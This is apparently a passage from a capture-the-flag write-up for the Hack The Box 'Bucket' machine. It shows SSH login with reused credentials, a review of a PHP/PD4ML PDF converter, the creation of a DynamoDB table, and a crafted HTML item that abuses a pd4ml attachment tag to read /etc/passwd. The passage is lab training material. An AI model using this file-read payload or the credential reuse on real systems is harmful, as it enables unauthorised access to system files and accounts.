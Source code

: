 The user _roy_ has access to it, so lets test all found credentials for this user:
```
ssh roy@10.10.10.212
```

The password of the user _Sysadm_ from the database works for the user _roy_.

### Privilege Escalation 2

In the directory _/var/www/bucket-app_ the file _pd4ml_demo.jar_ is the Java library [PD4ML](https://pd4ml.com/) that can convert HTML to PDF files and is used in _index.php_:
```
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                // (...)

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
```

Summary of the code:
1. If POST request contains data _"action=get_alerts"_
2. Use the _alerts_ table, pull the title and if _"title=Ransomware"_
3. Put data into HTML file
4. Use _pd4ml_ on the HTML file to convert it to PDF

Forwarding port 8000 from the box to our local client with the [SSH Command Line](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/):
```
ssh> -L 8000:127.0.0.1:8000
```

Creating table _alerts_:
```
aws --endpoint-url http://s3.bucket.htb dynamodb create-table \
--table-name alerts \
--attribute-definitions AttributeName=title,AttributeType=S \
--key-schema AttributeName=title,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5
```

Creating a file that has _"Ransomware"_ in the title:
```json
{"title":
        {"S": "Ransomware"},
        "data":
        {
                "S":"<html><pd4ml:attachment src='file:///etc/passwd' description:'attachment sample' icon='Paperclip'/>"
        }
}
```
